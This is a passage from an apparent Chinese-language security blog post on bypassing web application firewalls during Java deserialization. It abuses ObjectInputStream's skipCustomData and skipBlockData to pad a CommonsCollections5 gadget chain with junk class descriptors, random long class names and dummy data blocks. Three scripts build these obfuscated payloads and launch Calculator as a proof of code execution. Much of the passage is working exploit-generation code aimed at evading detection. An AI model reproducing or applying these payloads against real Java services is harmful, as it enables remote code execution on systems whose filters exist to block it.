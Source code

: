 但缺点是解析的对象会强转为IOException并抛出，控制台不太好看。  
  
  
## **skipCustomData**  
  
在readNonProxyDesc时先解析了classDesc，再调用了skipCustomData方法，skipCustomData方法中调用了readObject0，思路和前面分析的 "递归解析数据流" 相同。也就是说，可以在gadget前随便塞classDesc，不影响gadget解析。  
  
编写一段脚本验证，发现还是解析handle出错，和构造TC_ARRAY时的情况类似，加了个TC_EXCEPTION标记后成功弹计算器  
```
objArraySer = codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~
objArrayIns = yso.GetJavaObjectFromBytes(objArraySer)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

dirtyData = ""
dirtyData += string(descSer[4:-2]) // 去掉magic header、super class和bolck end
dirtyData += string(descSer[4:-2]) // 塞两个试试
dirtyData += "\x7b"
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
  
上面脚本中需要注意的是classDesc在dump出来后，最后一个字符是class的父类，这里是TC_NULL，倒数第二个字符是块结束符，这里是TC_ENDBLOCKDATA，需要去掉。  
  
在解析classDesc的代码中还可以看到，如果未从jvm找到对应的class，会抛出ClassNotFoundException异常并被捕获，在完成对象解析后才会抛出。  
  
所以classDesc的类名字段等信息都是可以随便写的，这里在类名中塞脏数据试一下，如下把类名设为长度为10000的随机字符串，也可以成功。  
```
objArraySer = codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~
objArrayIns = yso.GetJavaObjectFromBytes(objArraySer)~
objArrayIns.JavaSerializable.ClassDesc.Detail.ClassName=str.RandStr(10000)
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

dirtyData = ""
dirtyData += string(descSer[4:-2])
dirtyData += "\x7b"
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
再看skipCustomData函数除了readObject0，还循环调用了skipBlockData，明显是用来跳过数据块的，所以猜测可以在原本gadget的classDesc后加几个数据块，在反序列化时会自动跳过，完全不影响正常解析，但可能gadget第一层的class被WAF标记，所以还是要在gadget前加一个classDesc。  
  
再写个脚本测试下：   
```
objArraySer = codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~
objArrayIns = yso.GetJavaObjectFromBytes(objArraySer)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

dirtyData = ""
dirtyData += string(descSer[4:-2]) // 掐magic header，去end block data和super class的尾
dirtyData += "\x77"  // TC_BLOCKDATA
dirtyData += "\x05" // 数据块大小
dirtyData += string([]byte{1,2,3,4,5}) // 脏数据
dirtyData += "\x7b"
res = string(payload[:5]) + dirtyData+ string(payload[4:])
```